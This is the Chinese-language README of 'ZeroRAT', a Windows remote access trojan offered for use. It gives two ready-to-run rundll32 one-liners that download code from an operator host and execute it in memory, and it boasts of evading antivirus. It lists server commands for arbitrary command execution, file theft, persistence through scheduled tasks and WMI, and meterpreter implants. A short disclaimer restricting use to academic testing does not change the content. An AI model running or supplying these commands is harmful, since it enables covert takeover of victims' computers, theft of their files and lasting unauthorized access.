 #ZeroRAT
##简介
适用于windows的远控，客户端只需要执行一条指令，利用windows原生的程序执行，不在磁盘写文件，具有天然免杀的特性。重启失效。

程序里的download和upload都是以客户端的视角。客户端从服务端下载文件叫做download，客户端上传文件到服务端叫做upload。

##配置
在config.py中修改客户端上线的地址和后台的管理密码，记得要检查下把debug关掉。

程序依赖flask和sqlite3，自行pip安装

##客户端
把`<ip>:<port>`替换成实际上线的地址

正常版

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://<ip>:<port>/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){window.close();}
```

不死版

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://<ip>:<port>/connect",false);while(1){try{h.Send();B=h.ResponseText;eval(B);}catch(e){}}
```

##服务端
后台： `http://<ip>:<port>/server/`

服务端支持的命令有

* `sessions`  列出活动的客户端
* `use <id>`  根据id选择客户端
* `set <key> <value>`    设置全局变量
* `show globals/downloads/uploads`  查看全局变量、客户端能下载的文件、客户端上传的文件
* `delete session`  删除当前客户端
* `delete download/upload <id>` 按照id删除文件
* `upfile`  上传文件到服务器，并添加到downloads列表
* `download`  设置好download_file和download_save_path两个变量即可让客户端下载文件并保存到download_save_path
* `upload`  设置upload_file变量，即可让客户端把upload_file的文件上传到服务器
* `backdoor tasks <time>`  利用windows任务计划留后门，时间格式为00：00
* `backdoor wmi`  利用wmi留后门，每一小时执行一次
* `meterpreter shellcode`  InstallUtil执行shellcode方式种meterpreter，需要先设置LHOST和LPORT(migrate之后才能继续接受命令，依赖.NET Framework 2.0)
* `meterpreter powershell`  Powershell方式种meterpreter(依赖powershell 1.0)

除了上述的命令，其他均会被当做windows的系统命令来执行

命令详情请见/static/js/xkcd_cli.js

##开发
后台命令维护客户端 /static/js/xkcd_cli.js

后台命令维护服务端 /controllers/server.py

客户端维护 /controllers/client.py

客户端payload生成 payload.py

数据库操作相关 /models/

flask==0.8

##联系方式
http://5alt.me

md5_salt [AT] qq.com

##参考资料
https://gist.github.com/subTee/f1603fa5c15d5f8825c0

http://drops.wooyun.org/tips/11764

http://drops.wooyun.org/tips/8290

http://drops.wooyun.org/tips/12354

https://github.com/chromakode/xkcdfools

http://www.kammerl.de/ascii/AsciiSignature.php

https://github.com/AlessandroZ/LaZagne

##免责声明
使用本工具请遵守当地法律，仅能用作学术测试使用，严禁非法控制他人计算机。如果造成损害，与作者无关。

##License
GPLV3

##TODO
* 完善命令
* 通信流量加密
